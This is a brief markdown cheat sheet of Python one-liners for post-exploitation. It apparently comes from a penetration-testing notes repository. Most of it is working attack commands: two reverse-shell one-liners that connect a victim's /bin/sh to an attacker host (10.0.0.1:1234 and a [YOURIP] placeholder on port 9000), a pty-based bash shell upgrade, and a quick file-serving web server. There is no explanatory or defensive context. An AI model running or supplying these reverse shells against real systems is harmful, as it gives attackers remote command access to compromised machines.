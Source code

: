 # Python Command and Scripts for Post Exploitation

One liners
-----------

**Start a web server that serves the local files on port 8000, single threaded**
```python
python -m SimpleHTTPServer 8000```

**Python reverse shell from [pentestmonkey.net](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)**
```python 
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```

**Reverse Shell to YOURIP on port 9000**
```python
python -c "import socket,subprocess,os;host=\"[YOURIP]\";port=9000;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((host,port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);"```

**Spawn bash shell prompt**
```python
python -c 'import pty; pty.spawn("/bin/bash")'```